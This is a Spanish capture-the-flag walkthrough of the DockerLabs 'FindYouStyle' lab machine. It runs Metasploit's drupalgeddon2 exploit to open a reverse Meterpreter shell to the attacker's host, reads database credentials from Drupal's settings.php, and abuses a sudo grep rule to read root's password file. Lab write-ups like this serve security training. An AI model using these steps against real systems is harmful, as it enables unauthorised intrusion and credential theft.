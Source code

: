 ```yaml
---
icon: flag
---
```


# FindYouStyle DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip findyoustyle.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh findyoustyle.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 09:37 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Welcome to Find your own Style | Find your own Style
|_http-server-header: Apache/2.4.25 (Debian)
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.71 seconds
```

Si entramos en la pagina veremos que es un `Software` `Drupal` por lo que puede tener un `exploit` veremos a ver que version tiene.

```shell
whatweb http://<IP>/
```

Info:

```
http://172.17.0.2 [200 OK] Apache[2.4.25], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[172.17.0.2], MetaGenerator[Drupal 8 (https://www.drupal.org)], PHP[7.2.3], PoweredBy[-block], Script, Title[Welcome to Find your own Style | Find your own Style], UncommonHeaders[x-drupal-dynamic-cache,x-content-type-options,x-generator,x-drupal-cache], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.2.3], X-UA-Compatible[IE=edge]
```

## Escalate user www-data

No vemos una version en especifica, por lo que vamos a probar a utilizar `metasploit` para ver si algun `exploit` funciona:

```shell
msfconsole -q
```

Si buscamos un exploit para `drupal` veremos que este funciona:

```shell
use exploit/unix/webapp/drupal_drupalgeddon2
```

Lo configuramos:

```shell
set LHOST <IP_ATTACKER>
set LPORT <PORT>
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.120.128:7777 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.120.128:7777 -> 172.17.0.2:38468) at 2025-01-17 09:47:59 -0500

meterpreter > getuid
Server username: www-data
```

Vemos que obtendremos una shell como el usuario `www-data`.

## Escalate user ballenita

Si listamos los usuarios con una `bash` veremos los siguientes:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

Vemos el usuario `ballenita`, si nos vamos al siguiente directorio:

```shell
cd /var/www/html/sites/default
```

Vemos un archivo de configuracion tipico de `drupal` donde suele tener credeciales de la pagina:

```shell
cat settings.php
```

Info:

```
@code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
```

Vemos una parte interesante, por lo que vamos a probar la contraseña que pone como `ballenitafeliz` de la siguiente forma:

```shell
su ballenita
```

Metemos como contraseña `ballenitafeliz` y veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ballenita on 9421cefb0a55:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ballenita may run the following commands on 9421cefb0a55:
    (root) NOPASSWD: /bin/ls, /bin/grep
```

Vemos que podemos utilizar el binario `grep` y `ls`, como el usuario `root`, por lo que haremos lo siguiente:

Si listamos la carpeta de `root` veremos lo siguiente:

```shell
sudo ls /root
```

Info:

```
secretitomaximo.txt
```

Por lo que podremos leer el archivo con `grep` de la siguiente forma:

```shell
LFILE=/root/secretitomaximo.txt
sudo grep '' $LFILE
```

Info:

```
nobodycanfindthispasswordrootrocks
```

Puede ser que sea la contraseña de `root`.

```shell
su root
```

Metemos como contraseña `nobodycanfindthispasswordrootrocks` y veremos que ya seremos `root`, por lo que habremos terminado.
